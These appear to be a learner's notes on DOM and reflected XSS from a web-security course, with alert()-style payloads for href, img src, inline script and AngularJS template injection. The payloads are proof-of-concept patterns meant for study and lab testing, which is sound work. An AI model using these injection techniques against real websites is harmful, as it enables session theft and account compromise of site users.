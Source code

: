# Section 10: DOM XSS Vulnerabilities

## Discovering a Reflected DOM XSS in a Link

Example: The return path on a back link is populated from a query parameter in the Link

```
<a id="backLink" href="zaidzaid">Back</a>
```

Can run JavaScript within href:

`feeback?returnPath=javascript:alert(3)`

```
<a id="backLink" href="javascript:alert(3)">Back</a>
```

---

## Discoverting a Reflected XSS in an Image Tag

Example: Typing in a search box, the content is being displayed in `img` `src`, as part of the image path

Type a single quote to close `src="` quote:

Search Term:
```
"><script>alert(1)</script>//
```

or with less tags:

```
" onload=alert(3)
```

---

## Injecting JavaScript Directly in a Page Script

Example: A search term is used in a JS function

```
var seartchTerms = 'test';
document.write('<img src="/resources/images"tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

JS code can be injected into the page via the textarea search:

```
';alert(22);//
```

single quotes closed and comments added at the end

---


## Discovering XSS in a Drop-down menu

Example: modyfing URL query params for an async search function

```
.net/productId=3&storeId=Milanaaa<script>alert(22)</script>
```

---

## Discovering XSS in AngularyJS Application

Gathering information about technology used in Wappalyzer tool
- Find out AngularJS framework is uded
- Google for: angualar js xss cheatsheet
- Found that there is a way to run JS in AngularJS: `{{constructor.constructor('alert(1)')()}}`
- JS code is injected

---


